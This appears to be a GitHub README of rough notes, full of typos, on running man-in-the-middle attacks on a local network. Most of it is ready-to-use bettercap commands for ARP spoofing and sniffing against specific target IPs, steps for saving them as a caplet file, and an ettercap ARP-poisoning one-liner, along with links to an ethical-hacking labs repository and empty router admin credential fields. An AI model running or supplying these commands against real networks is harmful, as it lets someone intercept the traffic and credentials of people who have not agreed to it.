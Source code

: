 # wifi_router-MMTK


bace64 decuder:- https://www.google.com/amp/s/amp.base64decode.org/

### bettercap -iface wlan0
  
    
 
 net.probe on
 
 arp.spoof on
 
 set arp.spoof.fullduplex true 
 
 set arp.spoof.targets 10.0.2.5
 
 
 set net.sniff.local true
 
 net.sniff on


# Automate BetterCAP using Caplets
To be more efficient on your work, you can automate the modules setup part by creating a simple Caplet file(file.cap) and adding the commands per line.

## Create the caplet:

touch spoof.cap

## Add the commands and save it :

nano spoof.cap

   
   
   net.probe on
   
   set arp.spoof.fullduplex true 
   
   set arp.spoof.targets 192.168.0.131
   
   arp.spoof on
   
   set net.sniff.local true
   
   net.sniff on


As you can see is the same commands in order that you used previously.

## Start the Bettercap using the spoof Caplet that you created:

    bettercap -iface eth0 -caplet spoof.cap



# hacking lave
https://github.com/Samsar4/Ethical-Hacking-Labs/tree/master



## Ettercap wifi admin penel

 user:-

 password:- 



ettercap -Tq -M arp:remote -i wlan0 ///

